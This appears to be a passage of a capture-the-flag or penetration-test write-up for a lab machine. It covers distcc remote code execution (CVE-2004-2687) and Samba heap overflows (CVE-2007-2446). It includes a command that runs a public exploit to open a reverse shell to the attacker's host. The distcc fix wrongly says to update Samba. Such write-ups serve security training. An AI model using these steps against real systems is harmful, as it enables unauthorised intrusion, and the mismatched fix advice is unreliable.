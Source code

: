 ```bash
```

#### Initial Access

**Vulnerability Exploited:** 

Arbitrary Code Execution

**Vulnerability Explanation:**

distcc 2.x, as used in XCode 1.5 and others, when not configured to restrict access to the server port, allows remote attackers to execute arbitrary commands via compilation jobs, which are executed by the server without authorization checks. 

Reference: *https://www.cvedetails.com/cve/CVE-2004-2687/*

**Vulnerability Fix:**

Update to the latest samba version.

**Severity:** Critical

**Exploit Code:**

Reference: *https://github.com/k4miyo/CVE-2004-2687/blob/k4miyo/CVE-2004-2687.py*

Changes to the exploit code were not made. 

Run the following command (change lport and lhost as needed):

```bash
python3 CVE-2004-2687.py --rhost 10.10.10.3 --rport 3632 --lhost 10.10.14.12 --lport 4321
```

Output:

![output](screenshots-storage/pop shell.png)

#### Privilege Escalation

**Vulnerability Exploited:** 

Multiple Heap Overflows Allow Remote Code Execution

**Vulnerability Explanation:**

Multiple heap-based buffer overflows in the NDR parsing in smbd in Samba 3.0.0 through 3.0.25rc3 allow remote attackers to execute arbitrary code via crafted MS-RPC requests involving (1) DFSEnum (netdfs_io_dfs_EnumInfo_d), (2) RFNPCNEX (smb_io_notify_option_type_data), (3) LsarAddPrivilegesToAccount (lsa_io_privilege_set), (4) NetSetFileSecurity (sec_io_acl), or (5) LsarLookupSids/LsarLookupSids2 (lsa_io_trans_names). 

Reference: *https://www.cvedetails.com/cve/CVE-2007-2446/*

**Vulnerability Fix:**

A patch against Samba 3.0.24 has been posted at *http://www.samba.org/samba/security/*

Reference: *https://www.samba.org/samba/security/CVE-2007-2446.html*

**Severity:** Critical
